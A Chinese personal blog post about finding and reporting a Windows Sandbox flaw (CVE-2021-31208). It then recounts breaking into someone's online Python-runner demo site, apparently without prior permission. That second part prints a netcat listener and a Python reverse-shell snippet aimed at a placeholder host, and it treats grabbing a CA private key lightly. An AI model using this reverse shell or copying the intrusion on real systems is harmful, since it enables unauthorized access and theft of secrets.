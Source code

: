 ```yaml
---
layout: post
title: 论如何发现一个计算机漏洞
tags: [安全, 漏洞, 网络]
---
```


  网络安全？可不只是专业人员的事情。<!--more-->    
  
# 起因
  一个月前我发现了Windows沙箱有个很严重的漏洞，害得我都不敢相信微软产品的安全性了……不过Windows沙箱还是挺好用的，我不希望因为这种安全问题就放弃它，所以我就向微软反馈了这个漏洞。   
  于是昨两天，微软给我发邮箱说这个漏洞已经修好了，顺便感谢了一下我对微软产品安全性的贡献。虽然吧这个感谢也没给钱啥的，但是这个[漏洞的描述页面](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31208)能把我的名字写上去这个我还是挺高兴的。   
  在我收到这个消息当天，我兴奋的顺手又黑掉了一个网站😂，难不成我的天赋在信息安全上？   
  
# Windows沙箱的漏洞发现过程与复现方法
  在几个月前，我的电脑莫名其妙的被安装上了Microsoft Edge Beta版，我明明从来没有安装过，但是它就是莫名其妙的出现了。这么一安装，我的电脑就有了两个Edge浏览器。像我对电脑上面的东西还是有一点点的洁癖的，我不希望电脑上出现多余的东西，像这种出现两个Edge的问题我肯定是无法忍受。所以呢我就开始想方设法的卸载掉它。   
  一般来说Edge Beta都是手动安装的，所以这种情况在“卸载或更改程序”里应该是可以发现的，但是这个是莫名其妙被安装上的，自然也就不会出现在那个列表之中。接下来我开始搜如何强行卸载掉Edge，网上搜到的答案一般就是在浏览器内核文件夹下找到`Installer`文件夹，然后在这个文件夹下执行命令`.\setup.exe --uninstall --system-level --verbose-logging --force-uninstall`就OK了。结果我明明是去的Beta版下的那个文件夹执行的这条命令，然后它把我正式版的Edge卸掉了……卸掉之后不仅留下了一个删不掉的图标，而且Beta版里也没有我的Cookie和插件……   
  过了两天Windows更新了，更新之后正式版的又给我安装回来了……这真的是不知道怎么说……后来我下了一个Geek Uninstaller总算是把那个困扰我很长时间的Edge Beta卸载掉了。   
  就以上这件事情搞的我很烦躁，烦躁之后就想发泄，发泄又不能对着我的电脑发泄，于是我就打开了Windows沙箱，把Windows沙箱里的Edge给卸载掉了。结果怎么着？我物理机上的Edge也不见了！这说明了啥问题？我在沙箱里做的操作竟然影响到了物理机？后来我经过测试发现，微软似乎把物理机里的`C:\Program Files (x86)\Microsoft\Edge\Application`文件夹映射到了沙箱里，而且没有做任何的限制。这可真是太可怕了，要知道沙箱相当于一个被信任执行危险东西的一个地方，那么使用它的人都是不会考虑里面运行的东西是不是安全的，看来阿三写的代码不行啊。假如我写一个程序，它把`msedge.exe`文件感染了，比如说加个壳啥的，物理机上用Edge的人应该也不少吧，至少市场占有率都已经超过Firefox了，那么在沙箱里Edge被感染的人在物理机上一旦运行，那么物理机将陷入危险的境地。   
  最开始我发现了这个漏洞之后我是在反馈中心里提交的，不过那个看起来貌似一点点用都没有，微软是没有人会去看那个东西的，而且就算看到了也只会静悄悄的修复掉，你的反馈就和垃圾没什么区别。   
  后来我在百度上搜怎么向微软提交漏洞，百度简直就是个垃圾，没有搜到一点点有用的信息，之后看了半天我看到有一个文章说可以给 <secure@microsoft.com> 发邮件来反馈BUG，于是我就用英文写了篇文章来报告这个BUG。
  不过我的方法并不正确，因为微软有专门反馈BUG的网站，也就是[Microsoft Security Response Center](https://www.microsoft.com/zh-cn/msrc/)。你如果直接用邮箱报告他们当然也会回复，但是大概率得不到奖金，因为人家的报告一般都有格式，自己写邮件肯定是不知道要按什么格式写。所以垃圾百度搜给微软报告漏洞根本找不到这个网站，还是我发了邮件之后才知道原来可以在这里报告，所以如果大家以后找到微软的漏洞想报告，千万不要用那个垃圾“反馈中心”，也不要发邮件，最好直接在[这里](https://msrc.microsoft.com/create-report)报告漏洞。   
  另外还有个问题就是如果真的得到了奖金，拿到它也有点麻烦，因为微软不能说是让你发个支付宝收款码之类的，得先注册一个HackerOne或者Bugcrowd的账户，而且从国外提款很麻烦，所以如果不是那种经常能发现漏洞的，或者是在安全公司里的人，基本上这钱就还是别提了。   
## 复现的环境要求
  这个漏洞的大致使用方法读完上面的部分大家应该也都明白了吧，PoC？那种东西我怎么可能会写？傻子都知道怎么测试了吧？所以如果大家想复现这个漏洞首先需要运行在Windows 10的电脑上安装Windows沙箱，最早的有效版本我不太清楚，因为这个漏洞是微软把旧版的Edge完全从电脑上删除开始的，另外目前的话如果想要复现这个漏洞不能安装[KB5003173](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB5003173)补丁，如果安装了貌似也可以卸载掉。所以以当前发布这篇文章的时间来看，只要在最新的Windows 10上卸载KB5003173补丁，然后安装Windows沙箱，就可以复现这个漏洞。
## 人生中第一个自己贡献了的CVE
  看来[CVE-2021-31208](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31208)就是我贡献的了，以后只要在微软的[鸣谢列表](https://msrc.microsoft.com/update-guide/acknowledgement)里搜索Mayx就可以搜到我找到的漏洞了，虽然这个漏洞很简单，但是自己的名字能写到那个列表里也挺令人高兴的啊。   
  
# 那天我黑掉的网站
  5月12日那天，有一名叫做[Kingfish404](https://github.com/Kingfish404)的人Fork了我的博客，结果第一眼看到了那个爬猎聘网的脚本，吓得我还以为这位是我的老师，因为最近我参与的一个项目就是去爬各种招聘网站。总之就是这些原因我对这个人产生了一点点兴趣，就看了看Ta的仓库。看着看着看到了一个可以[在线学习Python的网站源代码](https://github.com/Kingfish404/LearnPython)，我很久以前就很想做一个开源的这种在线运行Python代码然后可以自动批阅的网站，就像Python123那样，就是因为他们那个服务要收费所以就想写个开源的，不过因为如果直接用Python在服务器上运行的话实在是太危险了，所以我想的是写一个使用Docker来运行Python并且评分的平台（也许可以用k8s？），可惜我水平有限，不怎么会用Docker所以就没再管了。但是今天既然看到了那不得拜读一下？结果发现这个人写的就是我说的那种危险方法运行Python脚本的，看了一下代码还用了一个漏洞百出的安全检查函数来防止攻击……总之既然有示例站我们就来搞搞试试看嘛。一般来说这种反弹shell绝对是简单的不得了，不过我也只是知道这个概念，怎么用我还是不太清楚。然后就搜了一下，看到了[这篇文章](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)。嗯……现实中攻击还是要比CTF中攻击有意思，然后我就在我的服务器上执行了一下`nc -lvvp 1234`，在它的代码执行框里执行：
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("remote-ip",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
  就这样我就成功的反弹了一个Shell，虽然吧Ta给的权限不高，但是下个CA证书的私钥还是轻轻松松的。后来我给这个人反馈了一下他就把网站关掉了。   
  所以如果谁有兴趣想亲手试试看怎么反弹Shell也可以下载Ta的代码试一试。   

# 总结
  从以上来看，想找漏洞绝不是一定要学过网络/信息安全的人才能干的事情，至少我不是信息安全专业的，所以只要有能注意到问题的思考方法，要正面面对问题，要刻意触发问题，知道问题出现在哪里，猜测问题可以做什么，那么谁都可以发现漏洞，虽然发现了也不能说是大神吧……但是你看看这把我的名字写到鸣谢里不挺让人开心的吗？
